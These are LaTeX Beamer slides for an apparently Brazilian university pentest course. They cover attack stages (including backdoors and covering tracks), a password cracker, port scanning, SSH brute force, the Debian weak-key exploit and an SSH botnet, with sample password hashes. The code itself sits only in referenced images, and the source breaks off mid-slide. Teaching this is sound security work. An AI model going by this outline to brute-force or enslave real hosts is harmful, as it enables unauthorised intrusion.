
\documentclass{beamer}
\usepackage[english,brazil]{babel}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{minted}
\usepackage{listings}
\usepackage[T1]{fontenc}
\usepackage{mdframed}
\usetheme{Madrid}
    

\title{Laboratório de Segurança Cibernética}

\subtitle{"Advanced Penetration Testing, Exploits and Ethical Hacking"}

\author{Grupo do LabPentest}


\date{UFSCar, 2016}

\subject{Theoretical Computer Science}

\AtBeginSubsection[]
{
  \begin{frame}<beamer>{Agenda}
    \tableofcontents[currentsection,currentsubsection]
  \end{frame}
}

% Let's get started
\begin{document}

\begin{frame}
  \titlepage
\end{frame}

\begin{frame}{Agenda}
  \tableofcontents
  % You might wish to add the option [pausesections]
\end{frame}

% Section and subsections will appear in the presentation overview
% and table of contents.
\section{Advanced PenTesting Essentials}
\begin{frame}{Introdução ao Pentesting}
    O que é Pentesting?
        \begin{itemize}
        \item{
            É um método que avalia a segurança de um sistema computacional ou rede através da análise de suas vulnerabilidades. As vulnerabilidades são testadas por meio de tentativas de invasão a partir de fontes maliciosas.
        }
        \item{
            As vulnerabilidades podem ser causadas por má configuração do SO, falhas desconhecidas de hardware ou software, deficiências do sistema operacional entre outras
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Objetivos   
        \begin{itemize}
        \item{
            Descobrir falhas ou bugs
        }
        \item{
            Definir o grau das vulnerabilidades encontradas
        }
        \item{
            Testar a capacidade defensiva de sistemas/redes
        }
        \item{
            Detectar tipos de ataques possíveis
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Quem realiza os ataques?   
        \begin{itemize}
        \item{
            Indivíduos altamente técnicos
        }
        \item{
           Tem muitas informações a respeito do alvo
        }
        \item{
            Conhecem profundamente a estrutura do sistema
        }
        \item{
            Pricipais motivações para um ataque
            \begin{itemize}
                \item{
                    Financeiras
                }
                \item{
                    Espionagen
                }
                \item{
                    Pessoais
                }
                \item{
                    Fraudes
                }
                \item{
                    Sabotagens
                }
            \end{itemize}
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Etapas para realização de um ataque   
        \begin{enumerate}
          \item Coleta de Informações
          \item Mapeamento de Rede
          \item Enumeração de Serviços
          \item Busca de Vulnerabilidades
          \item Exploração de Vulnerabilidades
          \item Implantação de Backdoors e Rootkits
          \item Eliminação de Vestígios
      \end{enumerate}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Tipos de Teste   
        \begin{itemize}
        \item{
            Os testes de intrusão podem ser realizados de várias formas
        }
        \item{
            A diferença mais comum entre elas é a quantidade de informações conhecidas a respeito do sistema a ser testado.
        }
        \item{
            Desta forma, temos dois tipos princiais de teste, caixa branca e caixa preta.
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Teste Caixa Preta   
        \begin{itemize}
        \item{
            Nesse tipo de teste se assume que não existe qualquer conhecimento prévio a respeito da infra-estrutura a ser testada, sendo que o primeiro teste deve ser utilizado para que as caracteristicas principais (localização e extensão dos sistemas) sejam descobertas antes mesmo de se iniciar as análises. Teste de caixa preta simulam um ataque de alguém que não esteja familiarizado com o sistema.
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Teste Caixa Branca   
        \begin{itemize}
        \item{
            Nesse tipo se assume que o testador possui total conhecimento da infra-estrutura a ser testada, incluindo o diagrama da rede, endereçamento IP e qualquer informação complementar. Teste de caixa branca simula o que pode acontecer durante o expediente de um trabalho ou depois de um "vazamento" de informações, em que o invasor tenha acesso ao código fonte, esquemas de rede e, possivelmente, até mesmo de algumas senhas.
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução ao Pentesting}
    Técnicas de Ataques   
        \begin{itemize}
        \item{
            Os testes avançados de penetração requerem a habilidade de se exaurir todas as possibilidades.
        }
        \item{
            Um bom testador continuam testando outras alternativas quando a maioria desiste.
        }
        \item{
            Algumas técnicas utilizadas por esses testadores serão abordadas de forma introdutória, são elas:
        }
        \end{itemize}
\end{frame}

\begin{frame}{Fuzzing}

        \begin{itemize}
        \item{
            Fuzz testing é uma técnica simples onde entradas aleatórias são testadas na aplicação.
        }
        \item{
            As entradas são simples sequências de caracteres ASCII totalmente aleatórias, o que enquadra o fuzzing no tipo de teste caixa-preta.
        }
        \item{
            Fuzzing é uma técnica comumente utilizada para testar problemas de segurança em softwares ou sistemas computacionais.
        }
        \item{
            O critério de avaliação do teste é simples:
            \begin{itemize}
               \item{Se a aplicação falha ou trava, ela não é bem sucedida, caso contrário ela é aprovada}
                \item{Não é esperado uma resposta sensata da aplicação e até mesmo o silêncio é aceito.}  
            \end{itemize}
        }
        \end{itemize}
\end{frame}


\begin{frame}{Scripting Skills} 
        \begin{itemize}
        \item{
            Scripting e fuzz testing são aliados
        }
        \item{
            Automação de ferramentas é essencial devido as limitações de tempo
        }
        \item{
            Python e Ruby são excelentes linguagens
            \begin{itemize}
               \item{Toneladas de bibliotecas construídas para os pesquisadores de segurança}
                \item{Pentestig não apresenta grandes novos desenvolvimentos}  
            \end{itemize}
        }
        \item{
            É necessário mergulhar em scripting ou programação para ser bem sucedido
        }
        \end{itemize}
\end{frame}

\begin{frame}{Networks Atacks} 
        \begin{itemize}
        \item{
            A rede é cheia de oportunidades e vulnerabilidades
        }
        \item{
            Ganhando a posição man-in-the-middle
        }
        \item{
            O ataque man in the middle é um cenário de ataque no qual o atacante ouve uma comunicação entre dois interlocutores e falsifica as trocas a fim de fazer-se passar por uma das partes.
        }
        \end{itemize}
\end{frame}

\begin{frame}{Networks Atacks} 
        
    Exemplo de Vulnerabilidade
        
        \begin{itemize}
        \item{
            Muitas redes são baseadas em protocolos e tecnologias antigas, por exemplo, o protocolo ARP (Address Resolution Protocol).
        }
        \item{
            O protocolo retorna um endereço MAC para um determinado endereço IP.
        }
        \item{
            Permite que pacotes ARP sejam enviados por qualquer pessoa.
        }
        \item{
            Fácil de enganar sistemas fazendo-o associar um endereço MAC a um endereço IP diferente do seu proprietário.
        }
        \item{
            O invasor pode realizar um ataque man-in-the-middle e ganhar uma posição muito séria para outros ataques.
        }
        \end{itemize}
\end{frame}

\begin{frame}{Engenharia Reversa} 
        \begin{itemize}
        \item{
            Consome muito tempo e esforço para encontrar códigos vulneráveis
        }
        \item{
            Skills avançados são necessários para a análise de bugs e exploração da escrita
        }
        \item{
            Restrito pelo nível de acesso do produto a ser testado
        }
        \item{
            Viola os termos de uso
        }
        \item{
            IDA Pro é a melhor ferramenta para disassembly 
        }
        \end{itemize}
\end{frame}

\begin{frame}{Pensando fora da caixa}

        \begin{itemize}
        \item{
            Aplicações, serviços, protocolos, características, etc, são construídos para funcionar
            \begin{itemize}
               \item{
                    A segurança é muitas vezes uma reflexão tardia
                    }
                \item{
                    O código dos programadores são baseado em RFC's e especificações para a interoperabilidade de fornecedores
                    }  
            \end{itemize}
        }
        \item{
            Penetration testers precisam
            \begin{itemize}
               \item{
                    Analisar as mesmos RFCs e determinar formas de quebrar a lógica
                    }
                \item{
                    Há muitas maneiras de se programar para um padrão
                    }
                \item{
                    Trabalhar através de problemas complexos para encontrar uma solução
                    }  
            \end{itemize}
        }
        \end{itemize}
\end{frame}

\begin{frame}{Testes de Segurança de Produtos} 
    
    Um penetration tester experiente, pode ser requisitado para testar a segurança de produtos como:
        \begin{itemize}
        \item{
            Network Access Control (NAC)
        }
        \item{
            Intrusion Prevention System (IPS)
        }
        \item{
            Antivirus (AV)
        }
        \item{
            Voice over IP (V0IP)
        }
        \item{
            Smartphones 
        }
        \item{
            E incontáveis outros produtos 
        }
        \end{itemize}
\end{frame}

\section{Network Attacks for Penetration Testers}

\section{Attacking the Domain}
\begin{frame}{Python para Pentesting}
    Porque Python?
        \begin{itemize}
        \item{
            Praticidade
        }
        \item{
            Legibilidade
        }
        \item{
            Comunidade
        }
        \item{
            Adaptabilidade
        }
        \item{
            Velocidade
        }
        \end{itemize}
\end{frame}

\begin{frame}{Introdução a Python}
      \begin{enumerate}
          \item Variáveis
          \item Strings
          \item Listas
          \item Dicionários
          \item Networking
          \item Exceções
          \item Funções
          \item Arquivo
          \item Sys
          \item OS
      \end{enumerate}
\end{frame}

\begin{frame}{1. Variáveis}
    Em Python toda variável é tratada como objeto e pode ser utilizada para gravar qualquer valor incluindo: reais, booleans, strings e outras estruturas mais complexas.
    \begin{itemize}
    \item{
    Ex:
    }
    \begin{figure}
        \centering
        
\includegraphics[width=0.8\textwidth]{Python/res/p1.png}
    \end{figure}
    
    \end{itemize}
\end{frame}

\begin{frame}{2. Strings}
    A string Python possui diversos métodos/funções robustos para strings. É preferível olhar a documentação para uma visão mais detalhada. Dentre as funções temos: upper(), lower(), replace() e find().
    \begin{itemize}
    \item{
    Ex:
    }
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p2.png}
    \end{figure}
    
\end{frame}

\begin{frame}{3. Listas}
    A estrutura de listas serve para guardar diversos objetos. Elas podem conter qualquer tipo de dado e assim como strings possuem diversos métodos que facilitam seu uso e manipulação.
    \begin{itemize}
    \item{
    Ex:
    }
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/p3.png}
    \end{figure}
    
\end{frame}

\begin{frame}{4. Dicionários}
    Dicionários são hash tables que podem guardar qualquer número de objetos de qualquer tipo. Ele armazena os objetos com uma chave e o objeto em sí.
    \begin{itemize}
    \item{
    Ex:
    }
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p4.png}
    \end{figure}
    
\end{frame}

\begin{frame}{5. Networking}
    O módulo de socket fornece uma biblioteca para fazer conexões de rede. Diferente de outras linguagens todo o processo de conexão e criação de sockets é automatizado e de simples uso.
    \begin{itemize}
    \item{
    Ex:
    }
    
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p5.png}
    \end{figure}
    
\end{frame}

\begin{frame}{6. Exceção}
    Exceções possibilitam o programador rastrear erros ou lidar com comportamento inesperado em execução.
    \begin{itemize}
    \item
    {
    Ex:
    }
    
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p6.png}
    \end{figure}
    
\end{frame}

\begin{frame}{7. Funções}
    Assim como em outras linguagens, Python possibilita a definição de funções que facilitam a escrita de código que se repete mais de uma vez durante o programa e também facilitar a leitura do código.
    \begin{itemize}
    \item{
    Ex:
    }
    \end{itemize}
    \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p7.png}
    \end{figure}
\end{frame}

\begin{frame}{8. Arquivo}
  Python também consegue ler, gravar e interpretar programas, isso será melhor detalhado mais a frente no trabalho.
\end{frame}

\begin{frame}{9. Sys}
  O modulo Sys nativo fornece acesso a objetos utilizados e mantidos pelo interpretador. Isso inclui flags, versão, tamanho máximo de variáveis, módulos, argumentos e etc.
  \begin{itemize}
  \item{
  Ex:
    }
\end{itemize}
  \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p8.png}
    \end{figure}
    
\end{frame}

\begin{frame}{10. OS}
  O modulo OS nativo da linguagem oferece funções que possibilitam acesso e utilização de rotinas de sistema. Esse modulo possibilita a interação com o sistema de arquivos, banco de usuários, permissões, etc.
  \begin{itemize}
  \item{
  Ex:
    }
    \end{itemize}
  \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/p9.png}
    \end{figure}
\end{frame}

\begin{frame}{Bibliotecas}
    \begin{itemize}
  \item{
    optparse -> Fazer parsing de linhas de comando. 
  }
  \item{
    nmap -> Utilizar um scanner nmap e manipular seus resultados.
  }
  \item{
    pexpect -> Automatização de comunicação com ssh, ftp, passwd, etc.
  }
  \item{
    threading -> Criação e manipulação de thhreads.
  }
  \item{
    pxssh -> Inclui as funções de login, logout, e comunicação com o shell.
  }
  \item{
    ftplib -> Funções e utilidades para comunicação e manipulação de conexões ftp.
  }
  \item{
    time -> Funções de tempo.
  }
  \end{itemize}
\end{frame}

\begin{frame}{Primeiro algoritmo de Pentesting}
    Clifford Stoll que foi um administrador de sistemas na Lawrence Berkley National Labs documentou uma caça a um hacker (que era membro da KGB) que quebrou diversos laboratórios, bases militares, universidades e outros no livro "The Cuckoo's Egg: Tracking a Spy Through the Maze of Computer Espionage". Ele também escreveu um artigo sobre os detalhes técnicos do ataque e da caça.
\end{frame}


\begin{frame}{Primeiro algoritmo de Pentesting}
  Stoll conectou uma impressora a um servidor após descobrir o hacker e abriu um server para o ataque a fim de atrai-lo para a armadilha. Assim toda tecla pressionada pelo hacker era devidamente documentada. O espião recuperava o arquivo da senha guardada, mas como isso era útil se todas eram encriptadas pelo sistema UNIX? Foi então que ao acessar o log do hacker ele conseguiu a informação das vitimas e decidiu estudar as senhas, foi então que ele percebeu que quase todas as senhas eram compostas de palavras comuns facilmente encontradas no dicionário.
\end{frame}

\begin{frame}{UNIX Password Cracker}
  Ex de arquivo:
    victim: HX9LLTdc/jiDE: 503:100:Iama Victim:/home/victim:/bin/sh
    root: DFNFxgW7C05fo: 504:100: Markus Hess:/root:/bin/bash
\end{frame}

\begin{frame}{UNIX Password Cracker}
  \begin{figure}
        \centering
        
\includegraphics[width=0.7\textwidth]{Python/res/a1.png}
    \end{figure}
\end{frame}

\begin{frame}{Port Scanner}
  Informação e reconhecimento da área são os pontos mais importantes de guerra. Em caso de conflito real são enviados abatedores com cavalos a fim de descubrir vulnerabilidades em um castelo ou cidade. Em segurança de redes devemos verificar as portas da rede, para isso começaremos com um algoritmo simples para escanear as portas de um IP específico.
\end{frame}

\begin{frame}{Port Scanner}
  Python, assim como a maior parte das linguagens modernas, oferece acesso a interface BSD de sockets. Essa interface torna possível a construção de aplicações para comunicação de rede entre hosts. Com uma série de diversas funções da API é possível criar e comunicar através de sockets TCP/IP com as operações básicas de create, bind, listen, send e connect.
\end{frame}

\begin{frame}{Port Scanner}
  A maior parte da internet é acessível através de TCP. Por exemplo, o local de teste e estudo pode ter um web server em TCP na porta 80, servidor de emails na porta 25, server de arquivos na porta 21, assim por diante. Para se conectar a esses serviços é necessário tanto o IP quanto a porta do serviço. Apesar de alguém envolvido com esse local ter acesso a essas informações é provável que o attacker não saiba.
\end{frame}

\begin{frame}{Port Scanner}
  Um attacker executa diversos port scanner no ínicio de todo ataque. Um tipo inclui enviar um pacote TCP SYN para uma série de portas comuns e esperar a resposta TCP ACK que vai sinalizar o status da porta. Um TCP Connect Scan usa three-way handshake para determinar a conexão. Utilizaremos TCP full connect scan para identificar os hosts.
\end{frame}

\begin{frame}{Port Scanner}
  Para entender melhor esse algoritmo foi divido em cinco passos e escrever o código gradualmente. Primeiro utilizaremos uma lista com o hostname e a porta separados por ";", depois traduziremos o hostname para um endereço de Internet IPv4. Para cada porta da lista iremos conectar com o endereço alvo da porta específica. Finalmente, para conseguir saber o serviço da porta, enviaremos lixo e receberemos o resultado do banner.
\end{frame}

\begin{frame}{Port Scanner}
  Receber hostname e usuário inseridos pelo usuário. Para isso usaremos a biblioteca optparse para fazer o parsing das opções de linha de comando. OptionParser([usage message]) cria uma instância de um option parser. Em seguida, parser.add\_option especifica os comandos individuais para o script.
\end{frame}


\begin{frame}{Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.7\textwidth]{Python/res/b1.png}
    \end{figure}
\end{frame}

\begin{frame}{Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/b2.png}
    \end{figure}
\end{frame}

\begin{frame}{Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.6\textwidth]{Python/res/b3.png}
    \end{figure}
\end{frame}

\begin{frame}{Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a2.png}
    \end{figure}
\end{frame}

\begin{frame}{Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.9\textwidth]{Python/res/a3.png}
    \end{figure}
\end{frame}

\begin{frame}{Nmap Port Scanner}
  O toolkit Nmap oferece a possibilidade de fazer diferentes tipos de scan como ACK, RST, FIN ou SYN-ACK. Isso é necessário para não limitarmos nossa busca em apenas um tipo específico de scan.
\end{frame}

\begin{frame}{Nmap Port Scanner}
  \begin{figure}
        \centering
        
\includegraphics[width=0.7\textwidth]{Python/res/a4.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Access}
  Agora que temos um port scanner para encontrar alvos, podemos começar a estudar as vulnerabilidades de cada serviço. O objetivo do botnet é forçar entrada pelo SSHe para isso precisamos interagir com o shell usando a biblioteca Pexpect que possibilita estudar outputs a inserir inputs relativo com o que o shell espera.
\end{frame}

\begin{frame}{SSH Access}
  \begin{figure}
        \centering
        
\includegraphics[width=0.55\textwidth]{Python/res/a5.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Access Brute Force}
  Agora que entendemos como utilizar o Pexpect podemos simplificar o script com PXSSH. PXSSH é uma biblioteca que é uma evolução que especializa o uso de Pexpect com funções pre-definidas como login(), logout(), prompt() e etc.
\end{frame}

\begin{frame}{SSH Access Brute Force}
    \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a6.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Access Brute Force}
    \begin{figure}
        \centering
        
\includegraphics[width=0.45\textwidth]{Python/res/a7.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Through Debian Exploit}
  Em 2006 a distribuição Debian do Linux teve uma linha de seu código comentada por engano por um desenvolvedor. Essa linha garantia a entropia durante o processo de criação de chaves SSH. Esse comentário limitou o espaço de criação das chaves para 15-bits de entropia. Isso significa que 32,767 chaves existiam para cada algoritmo e tamanho. Em 2 horas foi possível gerar todas as chaves. As chaves podem ser encontradas facilmente na internet e com elas que iremos trabalhar.
\end{frame}

\begin{frame}{SSH Access Debian Exploit}
    \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a8.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Access Debian Exploit}
    \begin{figure}
        \centering
        
\includegraphics[width=0.5\textwidth]{Python/res/a9.png}
    \end{figure}
\end{frame}

\begin{frame}{SSH Botnet}
  Agora finalmente podemos construir nosso botnet unindo o que foi anteriormente apresentado e simplificando o código com o uso de classes. Podemos expandir o controle do algoritmo para multiplos hosts possibilitando o uso de diversas máquinas em um ataque.
\end{frame}

\begin{frame}{SSH Botnet}
  \begin{figure}
        \centering
